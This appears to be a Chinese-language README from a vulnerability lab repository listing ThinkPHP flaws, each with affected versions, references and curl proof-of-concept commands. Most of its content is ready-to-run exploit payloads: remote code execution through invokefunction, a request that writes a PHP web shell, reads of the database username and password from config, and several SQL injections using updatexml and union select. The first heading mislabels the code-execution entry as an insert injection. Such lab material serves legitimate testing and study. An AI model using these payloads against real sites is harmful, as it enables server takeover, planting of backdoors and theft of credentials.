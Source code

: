 ## Thinkphp 5.0.16 insert 注入漏洞

测试镜像

* src/thinkphp/2.0/

影响范围

* 5.0.X - 5.0.23
* 5.1.X - 5.1.31

Poc

```
# 执行命令
curl -g '127.0.0.1/public/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id'

# 写文件
curl -g '127.0.0.1/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=info.php&vars[1][]=<?php%20system($_GET[0]);?>'

# 获取参数
curl -g '127.0.0.1/public/index.php/?s=index/\think\config/get&name=database.username'
curl -g '127.0.0.1/public/index.php/?s=index/\think\config/get&name=database.password'
```

参考文档

* [thinkphp5框架缺陷导致远程代码执行](https://mp.weixin.qq.com/s/oWzDIIjJS2cwjb4rzOM4DQ)
* [Thinkphp5 远程代码执行漏洞事件分析报告](https://paper.seebug.org/770/)
* [thinkphp_v5_rce.txt](https://github.com/coffeehb/Some-PoC-oR-ExP/blob/a9f165d7bc5bcc2b5e03153577bdfd83f35b0564/thinkphp/thinkphp_v5_rce.txt)

## Thinkphp preg_replace 代码执行漏洞

测试镜像

* src/thinkphp/2.0/

说明

* 当 `URL_PATHINFO_MODEL` 设置为 `1` 时存在代码执行漏洞

Poc

```
curl -g 'http://127.0.0.1/index.php/module/action/param1/$%7B@system($_POST[0])%7D' -d 0=ls
```

## Thinkphp 5.0.16 insert 注入漏洞

测试镜像

* src/thinkphp/5.0.16/

影响版本

- Thinkphp < 5.0.16

参考文档

* [ThinkPHP框架 5.0.x sql注入漏洞分析](https://paper.seebug.org/564/)

Poc

```
curl '127.0.0.1/public/index.php/index/index/testsql?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
```

## Thinkphp3.2.3 update注入漏洞

测试镜像

* src/thinkphp/3.2.3/

影响版本

* Thinkphp < 3.2.3

参考链接

* [Thinkphp3.2.3最新版update注入漏洞](https://paper.seebug.org/573/)

Poc

```shell
curl -g 'http://172.17.0.2/index.php/home/user?user[0]=bind&user[1]=money_0%20or%201%20and(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))&money=qwe'
```

返回内容包含sql报错：XPATH syntax error: '~root@localhost~'



## Thinkphp exp表达式注入漏洞

测试镜像

* src/thinkphp/3.2.3/

影响版本

* Thinkphp 3.x 5.x

参考文档

* [ThinkPHP框架架构上存在SQL注入](https://www.secpulse.com/archives/29826.html)

Poc

```shell
curl -g 'http://172.17.0.2/index.php/home/user/exp_inject?id[]=exp&id[]=%3d888%20union%20select%201,database(),3%23'
```


